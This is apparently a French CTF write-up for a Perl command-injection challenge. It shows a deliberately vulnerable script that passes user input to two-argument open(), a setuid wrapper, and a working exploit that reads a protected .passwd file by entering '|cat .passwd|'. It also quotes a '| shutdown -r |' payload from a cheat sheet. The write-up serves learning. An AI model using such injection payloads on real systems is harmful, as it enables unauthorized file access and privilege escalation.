 # Perl - Command injection

## Code source

```
#!/usr/bin/perl
 
delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';
 
use strict;
use warnings;
 
main();
 
sub main {
    my ($file, $line) = @_;
 
    menu();
    prompt();
 
    while((my $file = <STDIN>)) {
        chomp $file;
 
        process_file($file);
 
        prompt();
    }
}
 
sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}
 
sub check_read_access {
    my $f = shift;
 
    if(-f $f) {
        my $filemode = (stat($f))[2];
 
        return ($filemode & 4);
    }
 
    return 0;
}
 
sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);
 
    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }
 
 
    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }
 
    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";
 
    close F;
}
```

## Procédure

1. Dans la machine je vois un fichier setuid-wrapper.c qui contient 

```
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

/* setuid script wrapper */

int main()
{
    setreuid(geteuid(), geteuid());
    system("/challenge/app-script/ch7/ch7.pl");
    return 0;
}
```

Cela me permet d'avoir les droits sur l'ouverture du fichier .passwd si une exploitation se trouve à l'intérieur du fichier ch7.pl

2. Exécution du script

```
./setuid-wrapper

*************************
* Stat File Service    *
*************************
>>> ch7.pl
~~~ Statistics for "ch7.pl" ~~~
Lines: 73
Words: 164
Chars: 1186
```

La faille se trouve donc au niveau de la fonction open() 

3. Recherche de faille Command Injection pour open() en Perl

Ce site répertorie la faille existante : https://cheatsheet.haax.fr/linux-systems/programing-languages/perl/

```
# Perl command injection
# open() function is vulnerable and can be used to execute commands
# ex : “| shutdown -r |”
```

4. Exploitation de la faille

```
./setuid-wrapper

*************************
* Stat File Service    *
*************************
>>> |cat .passwd|
Can't open bidirectional pipe at /challenge/app-script/ch7/ch7.pl line 55, <STDIN> line 1.
~~~ Statistics for "|cat .passwd|" ~~~
Lines: 0
Words: 0
Chars: 0
PerXXXXXXXXXXXXXink
```

